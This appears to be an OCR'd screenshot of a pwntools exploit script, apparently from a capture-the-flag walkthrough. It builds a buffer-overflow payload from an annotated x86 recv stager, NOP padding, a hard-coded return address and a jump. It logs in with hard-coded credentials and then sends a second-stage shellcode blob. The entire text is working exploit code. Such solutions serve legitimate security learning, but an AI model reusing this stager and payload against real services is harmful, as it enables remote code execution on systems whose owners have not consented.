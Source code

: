 ```
shellcode += b"\x1c\xf1\x09\x20\xb1\xa8\xa3\x56\x48\x2c\x8b"
shellcode += b"\xd2\x97\x8d\x12\xdb\x5a\xa9\x30\xcb\xa2\x32"
shellcode += b"\x7d\xbf\x7a\x65\x2b\x69\x3d\xdf\x9d\xc3\x97"
shellcode += b"\x8c\x77\x83\x6e\xff\x47\xd5\x6e\x2a\x3e\x39"
shellcode += b"\xde\x83\x07\x46\xef\x43\x80\x3f\x0d\xf4\x6f"
shellcode += b"\xea\x95\x04\x3a\xb6\xbc\x8c\xe3\x23\xfd\xd0"
shellcode += b"\x13\x9e\xc2\xec\x97\x2a\xbb\x0a\x87\x5f\xbe"
shellcode += b"\x57\x0f\x8c\xb2\xc8\xfa\xb2\x61\xe8\x2e"

recv_sc = (
        # get socket descriptor in esi
        b"\x54"                       # push esp
        b"\x58"                       # pop eax
        b"\x66\x05\x49\x01"           # add ax, 0x149
        b"\x66\x2d\x01\x01"           # sub ax, 0x101
        b"\x8b\x30"                   # mov esi, dword [eax]

        # make space on stack
        b"\x83\xec\x64"               # sub esp, 0x64

        # push recv args
        b"\x31\xdb"                   # xor ebx, ebx
        b"\x53"                       # push ebx, recv flags = 0
        b"\x66\x81\xc3\x04\x04"       # add bx, 0x404
        b"\x53"                       # push ebx, size = 0x404
        b"\x54"                       # push esp
        b"\x5b"                       # pop ebx
        b"\x83\xc3\x64"               # add ebx, 0x64
        b"\x53"                       # push ebx, buffer
        b"\x56"                       # push esi, sock descriptor

        # call recv
        b"\x3e\xa1\xac\x82\x90\x71"   # mov eax, [0x719082ac]
        b"\xff\xd0"                   # call eax 
        )

payload = recv_sc + b"\x90"*(66-len(recv_sc)) + p32(0x7190239f) + b"\xeb\xb8"

r.recvuntil(b"Username: ")
r.sendline(b"alfiansyah")
r.recvuntil(b"Password: ")
r.sendline(b"K3r4j@@nM4j@pAh!T")
r.recvuntil(b"FullName: ")
r.sendline(b"0xdf")
r.recvuntil(b"Input Your Code: ")
r.sendline(payload)
time.sleep(1)
r.send(shellcode)

```
